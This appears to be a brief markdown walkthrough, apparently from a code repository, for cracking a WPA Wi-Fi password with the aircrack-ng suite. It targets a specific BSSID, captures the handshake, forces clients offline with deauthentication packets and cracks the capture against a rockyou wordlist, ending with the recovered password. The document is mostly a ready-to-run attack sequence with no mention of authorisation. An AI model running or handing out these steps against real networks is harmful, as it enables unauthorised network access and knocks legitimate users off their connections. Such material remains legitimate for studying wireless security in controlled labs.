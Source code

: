 `sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  
![Dear image, I hope you'll work how I... imagine](airodump-ng-1.png)

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  
![Mama dala corce bulke](airodump-ng-2.png)

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Because of this we'll be able to capture handshake (and password hash for later cracking)  
![nasmarowana maslem](airodump-ng-3.png)

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking
![wcinaj](aircrack-ng-1.png)

Password: 123456qwerty  


`dhcpclient eth0`  after wifi hacking NIC might have some problems. This command might help
